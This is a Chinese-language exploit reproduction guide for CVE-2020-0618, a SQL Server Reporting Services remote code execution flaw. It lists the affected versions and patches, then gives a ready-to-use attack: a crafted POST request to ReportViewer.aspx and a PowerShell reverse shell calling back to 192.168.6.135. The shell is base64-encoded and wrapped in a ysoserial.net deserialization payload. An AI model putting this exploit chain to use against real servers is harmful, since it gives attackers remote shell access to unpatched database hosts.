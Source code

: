 （CVE-2020-0618）SQL Server 远程代码执行漏洞
============================================

一、漏洞简介
------------

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting
Services) 发送特制请求进行触发。攻击成功可获得SQL
Server服务的对应控制权限。

二、漏洞影响
------------

  产品                                   版本                         修复补丁编号
  -------------------------------------- ---------------------------- --------------
  SQL Server 2016 Service Pack 2(GDR)    13.0.5026.0 - 13.0.5101.9    KB4505220
  SQL Server 2016 Service Pack 2 CU11    13.0.5149.0 - 13.0.5598.27   KB4527378
  SQL Server 2014 Service Pack 3 (GDR)   12.0.6024.0 - 12.0.6108.1    KB4505218
  Server 2014 Service Pack 2 CU4         12.0.6205.1 - 12.0.6329.1    KB4500181
  SQL Server 2012 Service Pack 4 (QFE)   11.0.7001.0 - 11.0.7462.6    KB4057116

三、复现过程
------------

首先登陆 ReportServer/pages/ReportViewer.aspx

    POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
    Host: target
    Content-Type: application/x-www-form-urlencoded
    Content-Length: X

    NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=

可以在PowerShell中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：

    $command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

    $encodedCommand = [Convert]::ToBase64String($bytes)

    .\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip

> 编译好的ysoserial.net下载地址：<https://github.com/ianxtianxt/ysoserial.net/>
>
> ps：上述命令在powershell里面执行好后，会自动黏贴到剪贴板上。

![](./resource/(CVE-2020-0618)SQLServer远程代码执行漏洞/media/rId26.png)

参考链接
--------

> <https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/>
